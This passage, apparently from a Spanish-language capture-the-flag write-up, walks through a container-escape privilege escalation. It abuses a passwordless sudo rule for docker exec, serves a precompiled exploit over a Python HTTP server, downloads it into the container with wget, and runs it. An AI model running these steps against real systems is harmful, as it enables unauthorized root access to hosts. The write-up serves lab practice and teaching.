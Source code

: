```bash
chmod +x exploit
```
Como noah tiene python3 nos creamos un servidor python3 -m http.server 8081 . Todo esto en la primera consola.

Desde la segunda consola que tenemos también un ssh a noah entramos en el docker. Recordad que para ver lo que podíamos ejecutar 

```bash
sudo -l
#y nos aparece que podemos ejecutar sudo sin contraseña . Añadimos /bin/sh
/usr/bin/docker exec -it webapp-dev0 /bin/sh

#ejecutamos como sudo

sudo /usr/bin/docker exec -it webapp-dev0

# desde esta consola nos bajamos el exploit de noah. 

# Para ver la ip de noah
hostname -I

#ejecutamos en la carpeta /tmp
cd tmp
wget 17.17.0.1:8081/exploit

#una vez bajado le damos permiso de ejecución , recordad que estamos ya dentro del docker en la segunda terminal
chmod +x exploit

#ejecutamos exploit
./exploit

```
Consola 2

![](assets/2022-07-02-09-35-01.png)

En la consola 1 nos metemos también en docker 
```bash
/usr/bin/docker exec -it webapp-dev0 /bin/sh
```

En consola 2 volvemos a ejecutar el exploit
./exploit

Recordad que esto último es copiado de s4vitar
